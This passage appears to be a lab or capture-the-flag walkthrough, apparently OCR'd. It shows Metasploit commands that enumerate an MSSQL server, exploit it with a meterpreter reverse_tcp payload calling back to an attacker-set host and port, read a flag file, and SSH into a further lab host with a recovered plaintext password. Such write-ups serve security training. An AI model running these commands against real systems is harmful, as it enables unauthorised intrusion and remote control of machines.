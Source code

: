 ```bash
auxiliary/admin/mssql/mssql_enum 
```

allow us to find more admin creds time to exploit:

```bash
use exploit/windows/mssql/mssql_payload 
set password fooadmin 
set username fooadmin 
set srvport 53 
set rhosts 172.16.64.199 
set payload windows/x64/meterpreter_reverse_tcp 
set lhost <ip>
set lport 443 
run
```

now we have a meterpreter session we can pop a shell:

```bash
shell
cd C
dir /s /b flag.txt
cd C:\Users\AdminELS\Desktop\
type flag.txt
```

even thou it's compromised id_rsa.pub looks interesting (looks like SSH rsa keys)_ `type id_rsa.pub` shows its not a real key but have ssh creds :

```bash
ssh developer@172.16.64.182  
dF3334slKw //password
```

thus also the 3'rd target is hacked .

